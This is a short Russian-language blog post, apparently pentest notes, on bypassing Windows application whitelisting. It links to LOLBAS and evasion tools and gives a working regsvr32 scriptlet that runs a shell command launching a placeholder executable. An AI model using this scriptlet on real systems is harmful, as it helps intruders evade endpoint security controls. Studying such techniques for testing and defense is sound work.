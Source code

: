 ```yaml
---
layout: post
categories: articles
tags:
  - ru
  - windows
published: true
ru: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение
В принципе, вариантов у нас немного, либо ищем бинарники которые мы можем запускать и которые могут что-то запускать, либо ищем бинарники которые можно запускать и которым мы можем менять конфиги, как например пути к либам.

А еще есть ПроцесХайджекинг, но про него я много не знаю.

# Ссылки
[Запуск пейлоада с помощью .NET](https://github.com/khr0x40sh/WhiteListEvasion)
[Список всех интересных бинарников винды которые могут быть использованны против неё](https://lolbas-project.github.io/)
[Исходники штуки которая ищет недостатки в вайтлистинге на конкретной машине](https://github.com/cyberark/Evasor/)
[Обход вайтлиста с помощью regsvr32](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/)

Пример кода для regsvr32
<code>
  
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & pentestlab.exe"); 
]]>
 
</script>
</registration>
</scriptlet>

</code>
